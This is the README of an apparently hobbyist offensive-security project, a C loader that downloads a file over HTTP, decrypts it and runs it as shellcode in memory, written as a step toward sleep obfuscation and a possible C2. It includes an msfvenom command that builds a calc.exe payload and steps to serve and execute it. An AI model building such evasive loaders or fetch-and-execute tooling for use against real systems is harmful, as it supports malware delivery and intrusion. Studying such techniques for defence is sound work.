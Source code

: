 # Shellcode Execution Project

## Overview

This project demonstrates how to download a file over HTTP, encrypt/decrypt its contents, and execute it as shellcode in memory. I mostly tried doing this out of curiosity. I'm just trying to get a sort of "building block" so I can attempt to create a Sleep Obfuscation technique and see how it works to then improve on it later for future projects... maybe a C2? 👀🤷 Who knows...

## Project Structure

- `src/main.c`: Main logic for the program.
- `src/encryptor.c`: Encryption and decryption functionality.
- `src/http_client.c`: Handles HTTP downloads.
- `include/encryptor.h`: Header file for the encryption logic.
- `Makefile`: Build system.

## Build and Run

### Build
```bash
make
```

### Steps to setup for analysis

Make sure you created the shellcode first with `msfvenom` like so:
```bash
msfvenom -p windows/x64/exec cmd=calc.exe EXITFUNC=thread -f raw -o calc.bin
```

Then create the python web server to host the file: 
```python
python3 -m http.server
```

Then run the file with the right arguments:
```bash
./ultra-hider.exe localhost 8000 calc.bin
```